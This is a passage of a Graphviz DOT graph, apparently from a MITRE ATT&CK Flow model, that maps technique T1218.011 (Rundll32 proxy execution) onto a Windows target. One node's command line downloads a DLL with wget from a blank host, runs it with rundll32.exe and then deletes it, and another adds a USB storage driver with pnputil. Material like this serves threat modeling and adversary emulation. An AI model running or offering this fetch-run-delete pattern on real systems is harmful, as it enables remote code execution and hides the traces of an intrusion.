	"process--d41d8e10-722e-42ff-9a0d-a9d2d43a2fa8" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">pnputil.exe /add-driver &quot;C:\\Windows\\INF\\usbstor.inf&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--aca0bdf1-ad16-42b4-b2bf-51697868855c" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1218.011</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1218.011</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Run malicous dll using Rundll32</TD></TR></TABLE>> shape=plaintext]
	"attack-action--aca0bdf1-ad16-42b4-b2bf-51697868855c" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--aca0bdf1-ad16-42b4-b2bf-51697868855c" -> "process--41717eec-ab44-4a40-bac8-c0918c8d56bb" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--41717eec-ab44-4a40-bac8-c0918c8d56bb" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///T1218_011.dll -OutFile T1218_011.dll; rundll32.exe T1218_011.dll,krnl; del T1218_011.dll</TD></TR></TABLE>> shape=plaintext]
}
